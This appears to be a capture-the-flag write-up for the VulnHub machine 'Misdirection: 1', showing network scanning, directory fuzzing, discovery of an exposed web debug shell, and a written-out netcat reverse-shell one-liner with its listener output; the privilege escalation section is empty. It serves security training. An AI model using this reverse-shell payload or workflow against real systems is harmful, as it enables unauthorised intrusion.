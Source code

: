 # MISDIRECTION: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.133	00:0c:29:b7:d5:da	VMware, Inc.
192.168.127.254	00:50:56:e7:2f:f3	VMware, Inc.
```

The IP address is `192.168.127.133`, let's scan it.

## 2.Enumeration

```bash
root@kali: nmap -p22,80,3306,8080 -sV -sC -v -oN nmap.out 192.168.127.133

Nmap scan report for 192.168.127.133
Host is up (0.00032s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)
|_  256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-open-proxy: Proxy might be redirecting requests
MAC Address: 00:0C:29:B7:D5:DA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

i started checking port `80` and at this page there was nothing interesting, a login page and sign up whcih did not work for registring a user or

using SQLi :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f5fd7c46-edbf-40a6-a984-a401b26e8f7e)

i did fuzzing and found nothing good to work on.

then i turned my attention on port 8080 and started fuzzing it, i found `/wrodpress` on this port which was another misdirection and had nothing

no user, no vulnerable plugin or anything (just a rabbit hole)

```bash
root@kali: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.127.133:8080/FUZZ

images                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 6ms]
help                    [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 9ms]
scripts                 [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 2ms]
css                     [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 3ms]
wordpress               [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 2ms]
development             [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 5ms]
manual                  [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 2ms]
js                      [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 3ms]
shell                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 7ms]
debug                   [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 4ms]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 4ms]
server-status           [Status: 403, Size: 305, Words: 22, Lines: 12, Duration: 2ms]
```

i checked all the directories found by fuzzing untill i reached `/debug` :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/63020c17-85d5-4451-a790-1ed081891850)

this is a virtual shell on web, which we can insert any command on it, why not  a reverse shell ?


## 3.Gaining Shell


So just use this payload and start a listener on your machine :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.127.128 4444 >/tmp/f
```

```bash
root@kali: nc -nvlp 4444

nc -nvlp 5555 
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.133] 58766
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

## 4.Privilege Escalation




